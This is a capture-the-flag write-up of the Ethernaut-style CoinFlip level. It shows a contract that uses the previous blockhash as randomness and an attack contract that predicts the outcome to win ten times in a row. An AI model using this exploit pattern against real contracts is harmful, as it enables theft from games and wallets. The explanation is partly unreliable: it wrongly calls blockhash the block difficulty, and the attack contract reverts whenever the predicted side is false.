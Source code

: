# Challenge 3

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Challenge
---
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

1. `blockhash()` - difficulty of the block (part of the transaction.)
2. `block.number` - current block number.

Solution 
---
1. So we are checking if the blockhash(block difficulty) is not same as the previous one then it will check if the blockvalue / FACTOR is 1 then it will solve the challenge and check if the all the math operations are working correctly or not so we will implement SafeMath Library by openzeppelin.

2. We Will get instance address and create new contract and check if the side is flipped or  not here's the code for challenge. Remember we need to win 10 times so you have to make flip 10 times true.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract CoinFlipAttack {
    CoinFlip coinFlipAddress;
     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
     using SafeMath for uint256;

    constructor(address _addr) {
        coinFlipAddress = CoinFlip(_addr);
    }

    function solveFlip() external returns(bool) {
    uint256 blockValue = uint256(blockhash(SafeMath.sub(block.number,1)));
          
    uint256 coinFlip = SafeMath.div(blockValue,FACTOR);
    bool  side = coinFlip == 1 ? true : false;

    require(side == true);
    bool result = coinFlipAddress.flip(side);

    return result;
    }
}
```

For Checking How many times you won get the instance address and paste in the 
Below deploy button you will see at address paste it and click you will see your instance contract state variables and function those are public.
another way to check using abi
```js
await contract.consecutiveWins()
```
 Click on the consecutiveWins see how many times you won if it is 10 then submit the instance, you will see the cleared level in the console.